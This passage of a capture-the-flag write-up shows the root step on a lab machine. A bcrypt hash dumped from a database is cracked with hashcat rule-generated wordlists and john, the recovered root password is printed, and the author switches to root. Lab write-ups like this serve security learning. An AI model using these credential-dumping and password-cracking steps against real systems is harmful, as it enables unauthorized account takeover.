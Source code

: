 ```sql
+----------------------------+---------------+---------------+----------+----------+--------------------------------------------------------------+----------+-------------+-------------------+---------------+----------+-----------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
1 row in set (0.000 sec)
```

* __Get the hash:__ `root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO`


# Root shell

* Crack hash using hashcat *but it not gonna work because fisrt we need to understand the second hint* __use hascat rules to easily crack all variations of common words or phrases.__ *and that word or phrase is __PleaseSubscribe!__*

* searching on google found a perfact rule for this work from  [NotSoSecure@github](https://github.com/NotSoSecure/password_cracking_rules)

```bash
❯ hashcat -a 0 -m 3200 hash word -r OneRuleToRuleThemAll.rule --debug-mode=1 --debug-file=matched.rule --force
# hashcat is slow in linux so i use hashcat only or generating wordlist and then use john to crach the hash

❯ echo "PleaseSubscribe" | hashcat -r OneRuleToRuleThemAll.rule --stdout > wordlist

❯ sudo john hash -w=wordlist
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

PleaseSubscribe!21 root
1g 0:00:01:38 DONE (2021-01-11 22:28) 0.01014g/s 130.7p/s 130.7c/s 130.7C/s PleaseSubscribe!p..PleaseSubscribe!14
Use the "--show" option to display all of the cracked passwords reliably
Session completed

❯ sudo john hash --show
root:PleaseSubscribe!21

1 password hash cracked, 0 left
```

* su to root

  ![](screenshots/root-deliver.png)
